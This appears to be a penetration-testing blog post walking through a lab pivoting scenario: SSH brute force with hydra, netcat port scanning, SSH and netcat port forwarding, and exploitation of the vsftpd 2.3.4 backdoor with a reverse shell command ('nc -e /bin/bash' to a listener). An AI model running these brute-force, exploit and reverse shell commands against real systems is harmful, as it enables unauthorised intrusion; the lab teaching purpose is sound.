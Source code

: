 ```yaml
---
title:  "Pivoting - part 1. Practical example"
date:   2021-11-04 10:00:00 +0600
header:
  teaser: "/assets/images/19/2021-11-05_02-02.png"
categories:
  - pentest
tags:
  - pivoting
  - red team
  - networking
  - pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![pivoting 1](/assets/images/19/2021-11-05_02-02.png){:class="img-responsive"}         

This article will consider scenarios for attacking protected segments of a corporate network using pivoting techniques. I will focus on a practical example.        

### pivoting

Pivoting is a technique by which access is organized to those networks to which we do not have access under normal circumstances and obtained using compromised computers. Network isolation will be useless if we compromise a host that has access to all isolated subnets. Thus, an attacker can use the routing capabilities of a compromised machine to access internal corporate resources.            

I will show with an example how an attacker can gain access to a "hidden" network without having direct access to it in the early stages of penetration testing using pivot techniques.       

### scenario

Let's consider at this network topology:       

![pivoting 1](/assets/images/19/pivot-topology.png){:class="img-responsive"}         

### enum and compromise machine A

Firstly, scan ports:          
```bash
nmap -Pn -sV 10.9.1.11
```

![machine A 1](/assets/images/19/2021-05-31_11-56.png){:class="img-responsive"}         

As you can see SSH port `22` is open.     

Let's go to brute via `hydra`:        
```bash
hydra -f -v -V -l root -P rockyou-15.txt -s 22 ssh://10.9.1.11 -t 2
```

![machine A 2](/assets/images/19/2021-05-31_12-26.png){:class="img-responsive"}         

### ssh port forward

Check network interfaces on machine `A`:        
```bash
ifconfig
```

![machine A 3](/assets/images/19/2021-05-31_11-59.png){:class="img-responsive"}         

As you can see we discover another network `7.7.1.0/24`.

Further, according to the scenario, the attacker wants to gain access to the subnet behind the `7.7.7.0/24` interface. To do this, he needs to use a compromised host as a pivot.     

In a compromised host, we cannot use `nmap` for port scanning, so use `netcat`:      
```bash
nc -zv -w1 7.7.1.5 1-100
```

![machine A 4](/assets/images/19/2021-05-31_13-03.png){:class="img-responsive"}         

then banner grabbling via netcat:
```bash
nc 7.7.1.5 21
```

![machine A 5](/assets/images/19/2021-05-31_13-09.png){:class="img-responsive"}         

We found a vulnerable `21` port:     

[https://www.exploit-db.com/exploits/49757](https://www.exploit-db.com/exploits/49757)

for exploitation `7.7.1.5` we use ssh tunnel:             

```bash
ssh -L 10.9.1.6:8021:7.7.1.5:21 -L 10.9.1.6:6200:7.7.1.5:6200 root@10.9.1.11
```

![machine A 6](/assets/images/19/2021-05-31_11-57.png){:class="img-responsive"}         

So what we do in here? We forwarded ports from attacker's machine to victim machine `B` via compromised machine `A` - `10.9.1.11`:      

![SSH tunnel](/assets/images/19/tunnel.png){:class="img-responsive"}         

Why `6200` port? Because, backdoor use this port.        


### exploit and access machine B

For exploitation machine `B` with address `7.7.1.5`, we'll download python exploit for `vsftpd 2.3.4` backdoor:             
[https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)           

Download and run:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 whoami
```

![machine B 1](/assets/images/19/2021-05-31_12-00.png){:class="img-responsive"}         

It's ok, but we cannot start the reverse shell because we do not have a reverse route.     

create back port forwarding for our reverse shell.

on machine `A` run:
```bash
nc -l -p 3333 -c "nc 10.9.1.6 3333"
```

![machine B 2](/assets/images/19/2021-05-31_11-59_1.png){:class="img-responsive"}         

and prepare listener on attacker machine:
```bash
nc -nlvp 3333
```

![machine B 3](/assets/images/19/2021-05-31_12-01_1.png){:class="img-responsive"}         

So what we do in here? Port forwarding is one of the basic steps during tunneling. This technique is used when the service within the detected network is not directly accessible. This is because our routing is unidirectional. We know how to access the internal service, but the service does not have an appropriate route to the attacker's machine. Therefore, we will redirect the all incoming connections to `3333` port from machine `A` to attacker's machine (on `3333` port):    

![netcat forward](/assets/images/19/netcat_fwd.png){:class="img-responsive"}         


on attacker machine run exploit with netcat reverse shell:
```bash
python3 vsftpd_234_exploit.py 10.9.1.6 8021 "nc -e /bin/bash 7.7.1.9 3333"
```

![machine B 4](/assets/images/19/2021-05-31_12-01.png){:class="img-responsive"}         

![rev](/assets/images/19/rev.png){:class="img-responsive"}         


check our listener:         

![machine B 5](/assets/images/19/2021-05-31_12-01_2.png){:class="img-responsive"}         

![machine B 6](/assets/images/19/2021-05-31_12-02.png){:class="img-responsive"}         

**So, the machine B has been pwned :)**

### conclusion

The attacker discovered secret network by following the steps below:              

- attacker got an access to the `machine A (10.9.1.11)`  which was on same network with attacker via brute `SSH` via `hydra`              
- then he realise that `machine A` has 2 network interfaces           
- scan ports on `machine B` via `nc` from `machine A`                
- then attacker banner grabbling on port `21` on `machine B` with IP address `7.7.1.5`         
- `machine B` have vulnerable `vsftpd 2.3.4` on port `21`              
- reverse port forward via `nc` on `A` for back connect from `B` to attacker machine    
- successfully exploitation of `vsftpd 2.3.4` via python exploit - create reverse shell via `3333` port    
- final    

In the next part I will go to consider an example which use `proxychains` and `metasploit` for pivoting.          

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*             
